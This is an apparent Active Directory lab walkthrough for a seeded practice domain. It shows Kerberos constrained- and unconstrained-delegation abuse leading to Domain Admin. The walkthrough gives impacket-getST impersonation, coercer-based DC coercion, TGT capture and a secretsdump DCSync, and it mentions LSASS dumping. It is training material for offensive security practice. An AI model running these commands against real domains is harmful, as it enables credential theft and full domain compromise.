

# 🎭 07 — Kerberos delegation abuse → Domain Admin

> [!abstract] Summary
> **Start:** `svc_trooper` (constrained), or control of `scarif`/`tatooine` (unconstrained).
> **Goal:** impersonate Administrator via Kerberos S4U or TGT capture.
> **Why it works:** delegation lets an account act *as another user* toward a service. The lab seeds both flavours.



## A. Constrained delegation — `svc_trooper`

Seeded: `TrustedToAuthForDelegation = true` and `msDS-AllowedToDelegateTo = HTTP/tatooine.empire.local`. This enables **protocol transition** (S4U2Self) — `svc_trooper` can mint a ticket *as any user* to that SPN.

```bash
impacket-getST -spn HTTP/tatooine.empire.local \
  -impersonate Administrator -dc-ip 10.10.0.10 \
  empire.local/svc_trooper:Summer2024
export KRB5CCNAME=Administrator.ccache
# now act as Administrator against tatooine (WinRM/HTTP)
nxc winrm tatooine.empire.local -k --use-kcache
```

> [!note] Pivot the SPN
> S4U2Proxy can often be retargeted to other SPN classes on the same host (e.g. `cifs/`, `host/`) → SMB admin on tatooine. From there, dump LSASS for higher creds.

## B. Unconstrained delegation — `scarif` (10.10.0.13), `tatooine` (10.10.0.100)

Seeded `TRUSTED_FOR_DELEGATION` (UAC 0x80000). Any auth to these boxes leaves a usable TGT in memory. Coerce the **DC** to authenticate → capture `COURUSCANT$` TGT → DCSync.

```bash
# on the unconstrained host (need local admin there first), capture TGTs:
impacket-krbrelayx -t ...           # or Rubeus monitor on Windows
# coerce DC to auth to it:
coercer coerce -l 10.10.0.13 -t 10.10.0.10 -u <user> -p <pw>
# captured DC TGT → DCSync:
KRB5CCNAME=coruscant.ccache impacket-secretsdump -k -just-dc \
  empire.local/'coruscant$'@coruscant.empire.local
```

> [!check] Outcome
> Constrained → admin on tatooine; Unconstrained → DC TGT → DA.
> Related coercion mechanics: [[06-coerce-relay]]. **Next:** [[12-persistence]].
